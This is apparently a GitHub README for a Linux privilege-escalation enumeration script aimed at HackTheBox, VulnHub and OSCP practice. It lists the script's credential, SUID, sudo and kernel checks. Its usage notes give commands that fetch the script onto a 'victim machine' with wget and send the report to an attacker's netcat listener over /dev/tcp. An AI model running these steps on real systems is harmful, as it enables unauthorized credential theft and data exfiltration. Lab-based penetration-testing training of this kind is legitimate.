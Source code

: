 # LINUX PRIVILEGE ESCALATION SCRIPT

This script has been written from experiences. As far as I was rooting linux box, I was adding the new way to detect the escalation privileges. 

**The strength of this script is the fact it doesn't only print information, it does an automatic analysis of information printed in order to show ony the relevant information.**

The script does the following actions

- [x] Print Network Interface configuration
- [x] Locate database config file in /var/www
- [x] Print potentials file containing password in /home or in /var/www
- [x] Check any .htpasswd file
- [x] Check credentials file in /etc/fstab
- [x] Check readable mail
- [x] Check last 10 min file edited **(Information useful for cron jobs)**
- [x] Check relevant processes and sort them by users
- [x] Check users and tell which one have root privileges except the standard root user
- [x] Print root files that can be read and those than can be written  
- [x] Print all readable files in /home
- [x] Check writable configuration files 
- [x] Print non default content of /etc/crontab (to avoid overwhelming information)
- [x] Check sudo rights of the current user
- [x] Check some vulnerable software like chkrootkit and snap
- [x] Print **uncommon** suid file (The default suid program like ping are removed)
- [x] Check LD_PRELOAD
- [x] Check program with capabilities 
- [x] Check docker users
- [x] Check lxd users
- [x] Check users with multiples groups
- [x] Check database version by submitting default credentials 
- [x] Check if mysql is running with root user
- [x] Check last login 
- [x] Print global listening connexion and local listening connexion **(relevant information of port forwaring)**
- [x] Print system information for kernel exploit
- [x] List installed compilers for eventual kernel exploit

## Usage 
There are many ways easy to run this script. 
1. Download it and host it in your attacking machine 
2. Download it from you attacking machine and run. Assuming you attacker machine is 192.168.43.1, 
	1. You can open a web server doing `sudo python3 -m http.server 80`
	2. Run it on your victim machine doing 
	```
	cd \tmp
	wget 192.168.43.1\linuxprivesc.sh
	bash linuxprivesc.sh > report.txt
	```

## Note
You don't have to direct the output in report.txt but I higly recommend it for analysis purpose. You can upload it back on your attacking machine by doing the following 
```
#On your atracking machine 
nc -nlvp 1111 > report.txt

#On your victim machine
cat report.txt > /dev/tcp/192.168.43.1/1111
```

**Remember to change the IP address by your own IP address**

*Sometimes some directories are printed in the enumeration while there are not too useful for us. For example too many logs from /snap/ or bunch of files in /var/www/. When this happen just do the following:*

Taking example of /snap/ `cat report.txt | grep -v '/snap/' > report_clean.txt` 

Assuming you have many directory that you want to remove (Ex: /var/www/html, /snap/), you can do it in one command `cat report.txt | grep -v '/snap/\|/var/www/html' > report_clean.txt`

As said previously, this script has been written from experiences. I've root more that 100 machines on vulhub and more than 50 on HackTheBox. You can check my HackTheBox profile [here](https://www.hackthebox.eu/home/users/profile/171842). 


## Test your privesc skills  with this script on the folowing boxes (good for OSCP preparation) 
- https://github.com/Ignitetechnologies/Web-Application-Cheatsheet/blob/master/README.md

- https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

- https://github.com/Ignitetechnologies/Privilege-Escalation



## References
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/rebootuser/LinEnum
- https://github.com/AlessandroZ/BeRoot
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/pentestmonkey/unix-privesc-check 

